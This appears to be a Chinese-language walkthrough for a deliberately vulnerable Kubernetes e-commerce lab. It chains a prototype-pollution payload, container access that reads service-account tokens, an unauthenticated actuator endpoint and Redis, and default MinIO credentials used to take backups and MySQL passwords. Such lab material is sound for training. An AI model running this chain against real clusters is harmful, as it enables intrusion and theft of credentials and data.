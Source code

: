 # 攻击步骤
## 1. 原型污染
在攻击机192.168.10.10上访问shop.demo.com:30521电商网站。输入框输入json：

```
{"__proto__":{"isAdmin":true}}
```

## 2. 容器逃逸

进前端容器：假设你已通过前端管理员界面获得操作 Kubernetes 资源的权限（或可通过 kubectl 直接操作）

```
kubectl exec -it -n vuln-ecommerce $(kubectl get pods -n vuln-ecommerce -l app=vuln-frontend -o jsonpath='{.items[0].metadata.name}') -- sh
```

查看容器内容

```
$ cat /var/run/secrets/kubernetes.io/serviceaccount/token
$ cat /var/run/secrets/kubernetes.io/serviceaccount/namespace
$ ls /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
$ cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt
```

## 3. 横向移动

在前端容器中访问后端服务信息，可以看到未授权接口返回的配置信息。

```
$ curl -H "Host: shop.demo.com" http://ingress-nginx-controller.ingress-nginx.svc.cluster.local/api/actuator/env
```
查找password关键字,看到redis地址，尝试redis未授权漏洞访问。

在攻击机执行

```
$ redis-cli -h192.168.20.13
$ key *
$ get prod:aws:creds
```

## 4. 数据窃取
在攻击机上访问minio获取备份数据

```
$ mc alias set myminio http://192.168.30.11:9000 test test1234

$ mc cp myminio/vulntest/config-backup.tar.gz ./
```
拿到数据后，进行解压

```
$ tar -zxvf config-backup.tar.gz
$ cat config.txt
```

压缩包下是mysql密码,攻击机下开始盗窃

```
$ mysql -uroot -p --skip-ssl
```
```
$ show databases;
$ use xxx
```
